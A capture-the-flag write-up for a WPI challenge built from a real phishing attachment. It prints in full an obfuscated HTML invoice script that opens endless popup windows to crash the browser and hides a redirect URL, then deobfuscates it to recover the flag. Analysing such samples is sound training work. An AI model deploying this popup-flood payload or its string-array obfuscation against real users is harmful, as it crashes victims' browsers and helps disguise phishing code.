 # danger-Live-and-Malicious-Code


> Like the title says, this challenge is dangerous and contains live malware.

> Shoutout to the hacker that I stole this from challenge from. Sadly I can't give them credit because they sent the phish from a compromised email, but it's literally his/her code. I just defanged it (a little bit - it will still crash your webbrowser (usually, but don't test that outside of a VM)) and stuck a WPI flag in here.

> To prevent accidental execution the file has been zipped with the password "I_understand_that_this_challenge_contains_LIVE_MALWARE"

> http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip

> made by: The_Abjuri5t (John F.)


When we unzip the file using the password given, we get one HTML file called invoice.html. by opening it in a text editor, we get:

	<html>

	<head>

	<title></title>

	</head>

	<body>

		<script>var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}</script>
	</body>

	</html>


While the script is unreadable as a one liner, it's easy to put it in a more readable format. This file open a Link in a pop-up windows. The adress of the link is obfuscated a lot, mostly by using the function used in var b, which acess the array in variable a at the adress given as argument. The array contained in variable a is "shuffled" by a function before being used by variable b.

We can see "WPI" appearing in var c, and var d begin with '{d', we can suppose that the flag is contained in the obfuscated URL.
By modifying the code a little bit, we can get it to simply print us the URL

	<!DOCTYPE html>
	<html>
	<title>Web Page Design</title>
	<head>
	</head>
	<body>
		<script>
			var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];

			(function(c, d) {
				var e = function(f)
				{
					while (--f) {
						c['push'](c['shift']());
					}
				};
				e(++d);
			}
			(a, 0xa8));
			var b = function(c, d) {
				c = c - 0x0;
				var e = a[c];
				return e;};
			var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I'+'{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d'+b('0xa') + b('0xd') + b('0x2') + 'net' + '/';

			document.write(c);

		</script>

	</body>
	</html>


The URL printed is "https://tryt5dfxc-rWPI{Oh\_nose\_procoding\_detected}.net/ " 

**flag**: WPI{Oh\_nose\_procoding\_detected}